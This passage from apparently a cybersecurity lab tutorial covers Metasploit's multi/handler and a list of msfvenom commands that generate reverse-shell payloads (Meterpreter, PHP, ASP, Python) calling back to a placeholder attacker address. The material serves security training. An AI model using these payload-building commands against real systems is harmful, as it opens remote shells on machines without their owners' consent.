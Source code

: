 To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values.

<img src="./Cybersecurity_101_screenshots/Metasploit_Exploitation32.jpg" width="800" alt="Screenshot 32"> <br>

Once everything is set, we will `run` the handler and wait for the incoming connection.

<img src="./Cybersecurity_101_screenshots/Metasploit_Exploitation33.jpg" width="800" alt="Screenshot 33"> <br>

When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell.

If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

#### Other Payloads

Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.

- **Linux** Executable and Linkable Format (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf` The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.
- **Windows**: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- **PHP**: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- **ASP**: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
- **PythonL**: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
